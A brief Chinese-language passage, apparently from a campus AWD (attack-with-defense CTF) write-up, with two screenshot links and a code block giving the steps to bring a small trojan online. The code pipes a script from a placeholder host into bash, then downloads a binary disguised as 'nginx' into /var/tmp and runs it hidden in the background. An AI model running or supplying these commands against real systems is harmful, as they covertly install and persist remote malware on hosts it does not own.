 ![image-20231208171847484](一次校内AWD简记/image-20231208171847484.png)

![image-20231208171936087](一次校内AWD简记/image-20231208171936087.png)

好，有被爽到。

小马的上线步骤：

```bash
> curl xxx.com/script | bash
wget xxx.com/nginx -O /var/tmp/nginx -o /dev/null && chmod +x /var/tmp/nginx && nohup /var/tmp/nginx >/dev/null 2>&1 &
```
